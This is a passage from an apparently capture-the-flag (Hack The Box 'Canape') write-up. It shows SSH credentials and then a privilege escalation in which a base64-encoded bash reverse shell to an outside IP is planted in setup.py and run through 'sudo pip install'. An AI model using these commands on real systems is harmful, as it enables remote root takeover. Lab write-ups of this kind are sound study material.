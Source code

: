 So we can ssh as user `homer` with password `0B4jyA0xtytZi7esBNGp`.

### Shell as root

A basic `sudo -l` shows that we can run pip install as root.

```
homer@canape:/tmp$ sudo -l
[sudo] password for homer:
Matching Defaults entries for homer on canape:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User homer may run the following commands on canape:
    (root) /usr/bin/pip install *
```

We can create a setup.py and run `sudo pip install .`
This will execute the code in `setup.py`

```
homer@canape:/tmp/exploit$ echo -n "bash -i >& /dev/tcp/10.10.14.7/4343 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43LzQzNDMgMD4mMQ==
homer@canape:/tmp/exploit$ echo 'import os;os.system("echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43LzQzNDMgMD4mMQ== | base64 -d | bash")' > setup.py
```

And now we run `sudo pip install .` and we obtain a reverse shell as root:

![](/assets/images/htb-writeup-canape/root.png)
    
Cheers!
